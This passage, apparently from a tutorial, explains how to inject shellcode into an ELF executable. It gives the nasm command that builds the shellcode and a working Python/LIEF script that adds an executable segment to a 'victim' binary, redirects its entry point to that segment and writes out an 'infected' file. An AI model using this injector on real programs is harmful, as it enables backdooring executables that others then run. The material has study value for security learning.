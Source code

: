 Please note that these addresses should be manually verified on the final shellcode, I have used hexdump to verify the same

And since we are using hardcoded addresses we should not use PIE. Position-independent (PIE), which means at runtime the code is relocated to a random address. This breaks shellcode that relies on absolute pointers like the one above.

Now lets use `nasm` to get our flat binary shellcode

```
nasm -f bin -o shellcode.bin ping.asm
```

Here NASM is an assembler, and -f bin means we want our shellcode in `bin` format and not another elf.

`ping.asm` would be your assembly shellcode and `shellcode.bin` will be the output file

Now lets write our python shellcode injector was built with a mix of custom logic and some AI support. Let’s break down what it does.

```python
import lief

binary = lief.parse("victim")
print("[*] Original entry point:", hex(binary.header.entrypoint))

# Load shellcode
with open("shellcode.bin", "rb") as f:
    shellcode = list(f.read())

# Find highest virtual address and file offset among LOAD segments
max_vaddr = 0
max_offset = 0
for seg in binary.segments:
    if seg.type == 1:  # PT_LOAD (manual)
        max_vaddr = max(max_vaddr, seg.virtual_address + seg.virtual_size)
        max_offset = max(max_offset, seg.file_offset + seg.physical_size)

# Align both to page boundary
aligned_vaddr = (max_vaddr + 0x1000) & ~0xfff
aligned_offset = (max_offset + 0x1000) & ~0xfff

# Create new segment manually
segment = lief.ELF.Segment()
segment.type = 1  # PT_LOAD
segment.flags = lief.ELF.Segment.FLAGS(5) # R + X → 0x1 | 0x4 = 0x5
segment.alignment = 0x1000
segment.virtual_address = aligned_vaddr
segment.file_offset = aligned_offset
segment.content = shellcode
segment.physical_size = len(shellcode)
segment.virtual_size = len(shellcode)

# Add the segment to binary
binary.add(segment)

# Patch the binary's entry point
binary.header.entrypoint = aligned_vaddr
print("[*] New entry point:", hex(aligned_vaddr))

# Write to disk
binary.write("infected")
print("[+] Infected binary written to 'infected'")
```
